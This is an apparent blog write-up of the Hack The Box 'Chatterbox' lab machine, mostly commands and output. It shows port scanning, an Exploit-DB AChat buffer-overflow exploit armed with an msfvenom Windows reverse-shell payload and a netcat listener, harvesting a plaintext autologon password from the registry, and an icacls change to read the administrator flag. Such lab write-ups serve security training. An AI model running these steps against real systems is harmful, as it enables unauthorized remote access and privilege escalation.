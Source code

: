 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
navigation: True
title: 'Chatterbox Writeup'
date: 2018-06-18
tags: ctf
class: post-template
subclass: 'post'
author: christoffer
---
```


> My writeup of the Hack the box Chatterbox.

A box that warranted a lot of resets and frustrations. Due to the fact that the initial shell was provided with a Buffer Overflow, and crashing the service at the same time.

Connecting with my supplied VPN from HackTheBox[^1], and performing the initial NMAP scan on the box IP: `10.10.10.74`

```
root@kali:~/Chatterbox$ nmap -p- -T4 -Pn 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 16:57 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.041s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 287.36 seconds
```

So that gives us two ports, lets run a more thorough scan on both.

```
root@kali:~/Chatterbox$ nmap -p9255,9256 -sV --version-all 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 17:05 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.09 seconds
```

Verification of these services can be done with a simple banner grab using netcat

```
root@kali:~/Chatterbox$ nc 10.10.10.74 9255
> GET / HTTP/1.1

HTTP/1.1 204 No Content
Connection: close
Server: AChat
```

Now it serves a HTTP 204 No Content, but the server seems interesting. Reporting as AChat[^2] we can determine (Unless its a fake HTTP Server), that there's some kind of chat server running behind that port.
Using Searchsploit we can quite quickly see if there is some ready made exploit available.

```
root@kali:~/Chatterbox$ searchsploit achat
-------------------------------------------- ----------------------------------
 Exploit Title                              |  Path
                                            | (/usr/share/exploitdb/)
-------------------------------------------- ----------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow  | exploits/windows/remote/36025.py
[..snip..]
-------------------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
```

So there is as I mentioned before a ready made Buffer OverFlow, that could be used.
First of all copy it to the current directory and look into the sourcecode (remember to never run anything without reviewing the sourcecode).

```
root@kali:~/Chatterbox$ searchsploit -m 36025.py
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025/
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/Documents/Documentation/CTF/htb/chatterbox/blog/36025.py
```

The exploit comes with some customization. Namely create your own shellcode to use in the exploit, and as the exploit suggests lets use msfvenom to create a reverse shell.

```
root@kali:~/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4000 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode.py
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3706 bytes
```

Now LHOST and LPORT are my own, substitute for your IP recieved by HackTheBox. The important part is that the shellcode generated is below 1152 bytes, as that is specified as the largest payload for this exploit. Mine that was generated is 774 bytes, so well below the threshold.
Using a texteditor lets remove the existing `buf` lines from the exploit and replace with our generated ones.
Now using the exploit, we also need to have a listener before the service is exploited.

```
Exploit:
root@kali:~/Chatterbox$ python 36025.py
---->{P00F}!
root@kali:~/Chatterbox$
```

```
Listener:
root@kali:~/Chatterbox$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from AChat [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
C:\Windows\system32>
```

Cool, has shell, as `Chatterbox\Alfred`.

```
c:\Users\Alfred\Desktop>dir /Q
Directory of c:\Users\Alfred\Desktop
[..snip..]
12/10/2017  07:50 PM                32 CHATTERBOX\Alfred      user.txt
[..snip..]
c:\Users\Alfred\Desktop>
``` 

So that takes care of one flag. Lets go for root!
Doing some registry enumeration, which can be automated with scripts like `Sherlock.ps1`[^3].
We are presented with:

```
c:\Users\Alfred\Desktop>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
[..snip..]
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
[..snip..]
c:\Users\Alfred\Desktop>
```

Got a user and the password, what would the odds be that Alfred uses the same password for the administrator account?
One could use `powershell` to get a shell as Administrator. But since you also have read access into the Administrator user as Alfred, we can also see if we can change permissions on `root.txt` using `icacls`.

```
c:\Users\Administrator>icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
Invalid parameter "CHATTERBOX\Alfred:(RX)"

c:\Users\Administrator>icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
EatSleepPwnRepeat
```


[^1]: [www.hackthebox.eu](www.hackthebox.eu)  
[^2]: [www.sourceforge.net/projects/achat/](https://sourceforge.net/projects/achat/)  
[^3]: [www.github.com/rasta-mouse](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
